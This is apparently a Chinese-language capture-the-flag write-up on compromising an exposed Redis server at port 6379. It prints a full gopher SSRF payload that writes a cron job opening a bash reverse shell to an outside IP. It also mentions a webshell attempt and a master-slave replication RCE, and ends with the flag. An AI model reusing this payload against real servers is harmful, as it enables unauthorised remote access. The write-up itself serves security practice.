






```
146.56.235.172:6379
```

1. 该题目开放端口为6379，判断为redis，尝试使用redis相关漏洞进行攻击

2. 先利用web1的ssrf结合gopher协议进行反弹shell，最终失败

   1. 服务器开启监听

   

   2. 脚本生成payload

   

   

   ```
   gopher://146.56.235.172:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2464%0D%0A%0A%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20/dev/tcp/113.45.142.235/8888%200%3E%261%0A%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2415%0D%0A/var/spool/cron%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
   ```

   3. 在存在ssrf漏洞处进行反弹shell，最终失败

      

3. 再利用redis-cli直接连接，将Webshell写入变量，发现不能爆破出网站绝对路径，无法将变量保存到指定路径中，故失败

4. 利用redis-rce，进行主从复制漏洞复现，成功反弹shell





```
meetsec1{672728e3bde3f4cc2b59de572b4df6d6}
```

